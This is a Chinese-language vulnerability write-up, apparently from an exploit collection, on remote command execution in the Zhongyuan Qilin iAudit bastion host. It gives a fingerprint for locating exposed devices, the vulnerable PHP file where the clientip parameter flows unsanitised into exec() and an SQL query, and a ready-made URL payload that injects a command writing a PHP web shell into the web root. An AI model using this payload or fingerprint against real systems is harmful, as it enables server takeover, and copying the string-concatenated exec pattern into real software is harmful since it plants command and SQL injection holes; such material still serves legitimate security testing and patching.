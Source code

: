 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>中远麒麟 iAudit堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>cert.subject="Baolei"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210714220315959.png)



出现漏洞的文件为 get_luser_by_sshport.php



```php
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```



其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```plain
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210714220838976.png)



再访问写入的文件执行命令

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210714221135635.png)